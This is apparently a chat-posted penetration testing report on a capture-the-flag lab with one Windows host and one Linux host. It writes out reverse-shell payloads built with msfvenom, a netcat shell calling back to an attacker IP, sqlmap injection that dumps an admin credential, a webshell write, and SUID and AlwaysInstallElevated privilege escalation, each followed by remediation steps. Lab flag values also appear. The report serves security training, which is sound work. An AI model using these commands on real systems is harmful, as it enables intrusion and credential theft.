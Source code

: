 Sumaiya Hossain, [16/8/2025 10:14]
Penetration Testing Report: Network Security Assessment  
Report Date: August 16, 2025  
Target: 
Network Environment including 10.200.150.151 (Windows) and 
10.200.150.152 (Linux)  



Report Summary  
This penetration testing report details the security assessment of the network environment, targeting a Windows system (10.200.150.151) and a Linux system (10.200.150.152), conducted between August 15–16, 2025. The assessment employed black-box methodology, simulating an unauthenticated external attacker, and identified critical vulnerabilities enabling full system compromise. The attack paths leveraged reverse shell payloads, insecure registry configurations, SQL injection, and misconfigured SUID binaries, resulting in unauthorized access and privilege escalation to NT AUTHORITY\SYSTEM on Windows and root on Linux.  

Key findings include:  

Windows (10.200.150.151): Unrestricted file uploads and AlwaysInstallElevated registry settings allowed initial access as the `hr` user and escalation to NT AUTHORITY\SYSTEM, exposing `THM{884a8fcd-7d9d-429c-97c2-a456c304206e}` (user.txt) and `THM{6e9a8f94-7e2a-4aa0-adb9-1eaa3e687749}` (root.txt).  
Linux (10.200.150.152): SQL injection in the login endpoint and an insecure SUID configuration on /usr/bin/grep enabled database access and root escalation, revealing THM{b289f151-cc7d-4a31-aa70-2772c5fafcb8} (root.txt).  

These vulnerabilities pose high to critical risks, with abstracted CVSS scores ranging from 9.0 to 9.8, threatening data confidentiality, integrity, and availability. Immediate remediation is recommended to prevent exploitation, with detailed vulnerability write-ups provided below.


Vulnerability Write-ups

Vulnerability Name: Unrestricted File Upload  
Risk Rating: High (CVSS v3.1 Base Score: 9.1 - AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:N)  
Flag Value: THM{884a8fcd-7d9d-429c-97c2-a456c304206e}  
Description of Vulnerability and How It Was Identified:  
An unrestricted file upload vulnerability was identified in a custom application on the Windows target (10.200.150.151). The application allowed uploading arbitrary files, including executables, without type validation. This was discovered by creating a reverse shell payload using msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.250.1.6 LPORT=1234 -f exe -o 1234.exe.pdf and uploading it to http://10.200.150.151/. A netcat listener (nc -lvnp 1234) confirmed a connection, granting access to the C:\ directory as the hr user, with the flag THM{884a8fcd-7d9d-429c-97c2-a456c304206e} retrieved from C:\Users\hr\Desktop\user.txt.  
Root Cause: Lack of server-side file type validation and executable file execution in upload directories.  

Remediation Actions to Resolve Root Cause of the Vulnerability:  
1. Input Validation: Implement strict file type whitelisting (e.g., .jpg, .pdf) using server-side checks.  
   Method: Modify application code to validate MIME types and extensions with a library like Python’s mimetypes.  
   Test: Upload 1234.exe.pdf, expect rejection.  
2. Secure Storage: Store uploaded files in a non-executable directory (e.g., /uploads/) with restricted permissions.  
   Method: Configure IIS or Apache to set +x off for upload directories.  
   Test: Attempt execution, expect failure.  
3. Application Whitelisting: Deploy a policy to block unapproved executables.  
    Method: Use Windows Defender Application Control or AppLocker.  
    Test: Run unauthorized executable, expect block.  
4. Logging: Enable upload attempt logging.  
   Method: Add logs with EventLog in application code.  
   Test: Check logs post-upload.  
Validation: Re-test with original payload, expecting no shell, and scan with Nessus.



Sumaiya Hossain, [16/8/2025 10:14]
Vulnerability Name: Insecure Registry Configuration (AlwaysInstallElevated)  
Risk Rating: Critical (CVSS v3.1 Base Score: 9.8 - AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
Flag Value: THM{6e9a8f94-7e2a-4aa0-adb9-1eaa3e687749}  
Description of Vulnerability and How It Was Identified:  
The AlwaysInstallElevated registry setting was enabled in both 

HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
and 
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer 

on 10.200.150.151, allowing MSI files to run with NT AUTHORITY\SYSTEM privileges. This was identified by querying the registry with 

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer 
and 
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

, confirming a value of 1. A malicious MSI payload was created with msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.250.1.6 LPORT=8888 -f msi -o shell.msi, executed via msiexec /quiet /i shell.msi, and a Metasploit multi/handler confirmed escalation, retrieving THM{6e9a8f94-7e2a-4aa0-adb9-1eaa3e687749} from C:\Users\Administrator\Desktop\root.txt.  
Root Cause: Misconfigured registry settings enabling elevated MSI execution without authentication.  




Remediation Actions to Resolve Root Cause of the Vulnerability: 

1. Disable AlwaysInstallElevated: Set the registry value to 0 in both locations.  
   - Method: Run reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 0 /f and repeat for HKCU.  
   - Test: Install shell.msi, expect failure.  
2. Restrict Registry Access**: Limit write access to non-administrative users.  
   - Method: Use secpol.msc to adjust permissions on registry keys.  
   - Test: Attempt modification as a standard user, expect denial.  
3. Patch Management: Update Windows to the latest version to address related vulnerabilities.  
   - Method: Run wuauclt.exe /detectnow and install updates.  
   - Test: Verify version with winver.  
4. Audit Configuration: Regularly review registry settings.  
   - Method: Script with PowerShell (Get-ItemProperty).  
   - Test: Check post-audit for anomalies.  
   - Validation: Re-test with original MSI, expecting no escalation, and scan with Microsoft Baseline Security Analyzer.

Vulnerability Name: SQL Injection  

Risk Rating: Critical (CVSS v3.1 Base Score: 9.8 - AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
Flag Value: N/A (Database Access, Precursor to Root Flag)  
Description of Vulnerability and How It Was Identified:  
A SQL injection vulnerability was found in the /includes/user_login.php endpoint on 10.200.150.152, targeting the email parameter. This was identified using sqlmap -u "http://10.200.150.152:1200/includes/user_login.php" --data="email=test&password=test" --batch, which confirmed injection and dumped the sequel database, revealing admin credentials (admin@sequel.thm:zxQY7tN1iUz9EJ3l8zWezxQY7tN1iUz9EJ3l8zWe). 

Stacked queries ('; SELECT INTO OUTFILE '/tmpbvyod.php' #) created a backdoor, and a netcat reverse shell (nc -e /bin/sh 10.250.1.6 4444) established access as www-data.  
Root Cause: Lack of input sanitization and permissive MySQL settings allowing stacked queries.  

Remediation Actions to Resolve Root Cause of the Vulnerability:  
1. Use Prepared Statements: Implement parameterized queries in PHP (e.g., PDO).  
   - Method: Replace mysql_query with $stmt = $pdo->prepare("SELECT * FROM users WHERE email = ?"); $stmt->execute([$email]);.  
   - Test: Inject ' OR 1=1 --, expect no results.  
2. Disable Stacked Queries: Configure MySQL to reject multiple statements.  
   - Method: Set multi_statements=0 in my.cnf.  
   - Test: Run stacked query, expect error.  
3. Input Sanitization: Add server-side filtering.  
   - Method: Use filter_var($email, FILTER_SANITIZE_EMAIL).  
   - Test: Inject malicious input, expect sanitization.  
4. WAF Deployment: Install a Web Application Firewall.  
   - Method: Configure ModSecurity with SQLi rules.  
   - Test: Attempt injection, expect block.  
   - Validation: Re-test with sqlmap, expecting no dump, and scan with OWASP ZAP.

Sumaiya Hossain, [16/8/2025 10:14]
Vulnerability Name: Insecure SUID Configuration  
Risk Rating: Critical (CVSS v3.1 Base Score: 9.0 - AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)  
Flag Value: THM{b289f151-cc7d-4a31-aa70-2772c5fafcb8}  
Description of Vulnerability and How It Was Identified:  
An insecure SUID bit on /usr/bin/grep was identified on 10.200.150.152, allowing the www-data user to read root files. This was discovered using linpeas.sh, which listed SUID binaries with find / -perm -u=s -type f, revealing /usr/bin/grep with unexpected privileges. Executing /usr/bin/grep -r "" /root/root.txt retrieved THM{b289f151-cc7d-4a31-aa70-2772c5fafcb8}, confirming root access.  
- Root Cause: Unnecessary SUID assignment violating least privilege principles.  

Remediation Actions to Resolve Root Cause of the Vulnerability:  
1. Remove SUID Bit: Disable SUID on /usr/bin/grep.  
   - Method: Run chmod u-s /usr/bin/grep.  
   - Test: Attempt root file read, expect permission denied.  
2. Audit SUID Binaries: Review all SUID files for legitimacy.  
   - Method: Use find / -perm -u=s -type f 2>/dev/null and document findings.  
   - Test: Verify only essential binaries retain SUID.  
3. Restrict Permissions: Limit www-data access to web directories.  
   - Method: Set chown root:root /var/www/html; chmod 755 /var/www/html.  
   - Test: Attempt access outside web root, expect failure.  
4. Monitoring: Enable file permission change alerts.  
   - Method: Configure auditd with auditctl -w /usr/bin/grep -p wa.  
   - Test: Modify permissions, check logs.  
- Validation: Re-test with original command, expecting no access, and scan with Lynis.


Conclusion and Recommendations  
The identified vulnerabilities on 10.200.150.151 and 10.200.150.152 enabled complete system compromises, exposing sensitive data and granting root-level access. Immediate remediation is critical, with a target completion date of August 18, 2025, and validation by August 19, 2025. Regular patching, configuration audits, and network segmentation are recommended to prevent future exploitation.

Sumaiya Hossain, [16/8/2025 10:14]
this is my network part

Sumaiya Hossain, [16/8/2025 10:15]
Someone kindly merge this as a pdf

Sumaiya Hossain, [16/8/2025 10:15]
if it's good and be help to someone